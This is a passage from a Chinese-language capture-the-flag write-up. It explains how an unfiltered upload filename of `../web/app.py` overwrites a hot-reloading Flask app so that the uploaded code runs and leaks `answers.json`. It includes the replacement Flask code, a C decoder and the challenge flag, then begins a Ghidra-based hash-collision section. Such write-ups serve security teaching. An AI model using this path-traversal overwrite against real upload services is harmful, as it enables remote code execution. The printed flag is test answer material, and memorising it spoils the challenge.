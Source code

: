而这个 Flask App 的启动命令为 `flask run --reload --host 0`，这代表：
- 开启了 `--reload` 选项，当源文件被更改时，Flask 会热重载。
- 没有指定 `--app`，因此 Flask 会从 `app.py` 或 `wsgi.py` 加载 App。

如果原来的代码中没有对 POST 请求传入的文件名做过滤，如果文件名为 `../web/app.py` 或 `../web/wsgi.py`，则有可能会覆写原本在 `/tmp/web/` 中运行的 Flask App，转而运行我们上传的源文件。

这里编写一个 Flask App，这个 Flask App 会在接收到对路径 `/` 的 GET 请求时，直接读取并返回 `answers.json`：
```python
from flask import Flask, render_template, request, flash, redirect
import json
import os
import traceback
import secrets

app = Flask(__name__)
app.secret_key = secrets.token_urlsafe(64)

@app.route("/", methods=["GET"])
def index():
    answers = json.load(open("answers.json"))
    return answers
```

将这个文件保存为 `app.py`，然后在 Firefox 浏览器中上传这个文件。这样并不会将这个文件写到 `/tmp/web/` 中，但是这样提供了请求模板，让我们可以更改这个请求，然后重新发送这个 POST 请求。

在 Firefox 中上传这个文件后，对这个请求选择 "Edit and Resend"，将 Body 部分中的 `filename="app.py"` 修改为 `filename="../web/app.py"`，然后重新发送请求：

{{< image src=img/firefox-edit-and-resend.png >}}

刷新页面就会直接返回原始的 `answers.json` 文件。将所有数字加上 65 并以 ASCII 字符形式输出：
```c
#include <stdio.h>
int list[] = {37, 43, 32, 38}; /* more numbers are omitted */
int main() {
    for (int i = 0; i < sizeof(list) / sizeof(int); i++)
        putchar(list[i] + 65);
    return 0;
 }
```

将获取的数据填入 list 中，编译运行，即可在输出中找到 Flag。

Flag 为 `flag{uno!!!!_esrever_now_U_run_MY_c0de9fba75991b}`

## 哈希三碰撞
### 三碰撞之一
通过 Ghidra 逆向分析第一个文件（这里已经标注好了变量名）：

{{< image src=img/hash-ghidra-1.png >}}

可以看到程序的输入应该是 3 个 8 字节长度的数据，输入格式为 16 进制编码。
